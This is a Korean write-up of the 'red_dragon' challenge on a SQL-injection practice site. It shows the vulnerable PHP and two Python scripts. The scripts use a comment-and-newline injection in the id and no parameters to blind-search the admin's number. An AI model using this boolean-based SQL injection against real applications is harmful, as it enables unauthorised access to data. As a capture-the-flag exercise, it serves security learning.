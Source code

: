 ## Red_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```
**is_numeric:** 값이 숫자 또는 숫자 문자열인지 확인하는 함수
### exploit
admin에 해당하는 no 값을 알아내야한다.
```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for ran in range(100):
  param = {'id':"'||no>%23", 'no':f"%0a{str(10 ** ran)}"}
  print(f'?id={param['id']}&no={param["no"]}')
  res = requests.get(url=url+f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if 'Hello admin' not in res.text:
    print(f'10^{ran-1} < no < 10^{ran}')
    break
```
이 코드를 통해 no의 범위를 알아낼 수 있었다.<br>
다음으로 이 범위에 대한 이분 탐색을 이용한 코드로 정확한 값을 알 수 있다. 
```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

left = 10 ** 8
right = 10 ** 9
while left<=right:
  mid = (left+right)//2

  param= {'id':"'||no>%23", 'no':f'%0a{mid}'}
  res = requests.get(url=url+ f'?id={param['id']}&no={param["no"]}', cookies=cookie)
  if "Hello admin" in res.text:
    left = mid + 1
  else:
    right = mid - 1
  print(left,right)
print(left,right)
```
